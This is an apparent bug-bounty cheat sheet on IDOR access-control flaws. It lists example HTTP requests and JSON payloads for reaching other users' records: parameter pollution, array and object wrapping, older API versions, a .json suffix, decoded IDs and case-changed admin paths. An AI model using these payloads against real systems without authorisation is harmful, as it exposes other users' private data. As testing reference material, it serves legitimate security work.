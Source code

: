 # IDOR
## IDOR (Insecure Direct Object Reference)

Insecure direct object references (IDOR) are a type of access control vulnerability that arises when an application uses user-supplied input to access objects directly. The term IDOR was popularized by its appearance in the OWASP 2007 Top Ten. However, it is just one example of many access control implementation mistakes that can lead to access controls being circumvented. IDOR vulnerabilities are most commonly associated with horizontal privilege escalation, but they can also arise in relation to vertical privilege escalation.

1. Add parameters onto the endpoints for example, if there was
```html
GET /api/v1/getuser
[...]
```
Try this to bypass
```html
GET /api/v1/getuser?id=1234
[...]
```

2. HTTP Parameter pollution

```html
POST /api/get_profile
[...]
user_id=hacker_id&user_id=victim_id
```

3. Add .json to the endpoint

```html
GET /v2/GetData/1234
[...]
```
Try this to bypass
```html
GET /v2/GetData/1234.json
[...]
```

4. Test on outdated API Versions

```html
POST /v2/GetData
[...]
id=123
```
Try this to bypass
```html
POST /v1/GetData
[...]
id=123
```

5. Wrap the ID with an array.

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"id":[111]}
```

6. Wrap the ID with a JSON object

```html
POST /api/get_profile
[...]
{"user_id":111}
```
Try this to bypass
```html
POST /api/get_profile
[...]
{"user_id":{"user_id":111}}
```

7. JSON Parameter Pollution

```html
POST /api/get_profile
[...]
{"user_id":"hacker_id","user_id":"victim_id"}
```

8. Try decode the ID, if the ID encoded using md5,base64,etc
```html
GET /GetUser/dmljdGltQG1haWwuY29t
[...]
```
dmljdGltQG1haWwuY29t => victim@mail.com

9. If the website using graphql, try to find IDOR using graphql!
```html
GET /graphql
[...]
```
```html
GET /graphql.php?query=
[...]
```

10. MFLAC (Missing Function Level Access Control)
```
GET /admin/profile
```
Try this to bypass
```
GET /ADMIN/profile
```



## Basics

```text
Check for valuable words:
{regex + perm} id
{regex + perm} user
{regex + perm} account
{regex + perm} number
{regex + perm} order
{regex + perm} no
{regex + perm} doc
{regex + perm} key
{regex + perm} email
{regex + perm} group
{regex + perm} profile
{regex + perm} edit
```

## Bypasses

* Add parameters onto the endpoints for example, if there was

```text
GET /api_v1/messages --> 401
vs 
GET /api_v1/messages?user_id=victim_uuid --> 200
```

* HTTP Parameter pollution

```text
GET /api_v1/messages?user_id=VICTIM_ID --> 401 Unauthorized
GET /api_v1/messages?user_id=ATTACKER_ID&user_id=VICTIM_ID --> 200 OK

GET /api_v1/messages?user_id=YOUR_USER_ID[]&user_id=ANOTHER_USERS_ID[]
```

* Add .json to the endpoint, if it is built in Ruby!

```text
/user_data/2341 --> 401 Unauthorized
/user_data/2341.json --> 200 OK
```

* Test on outdated API Versions

```text
/v3/users_data/1234 --> 403 Forbidden
/v1/users_data/1234 --> 200 OK
```

Wrap the ID with an array.

```text
{“id”:111} --> 401 Unauthriozied
{“id”:[111]} --> 200 OK
```

Wrap the ID with a JSON object:

```text
{“id”:111} --> 401 Unauthriozied

{“id”:{“id”:111}} --> 200 OK
```

JSON Parameter Pollution:

```text
POST /api/get_profile
Content-Type: application/json
{“user_id”:<legit_id>,”user_id”:<victim’s_id>}
```

Source: [@swaysThinking](https://twitter.com/swaysThinking) and other medium writeup!

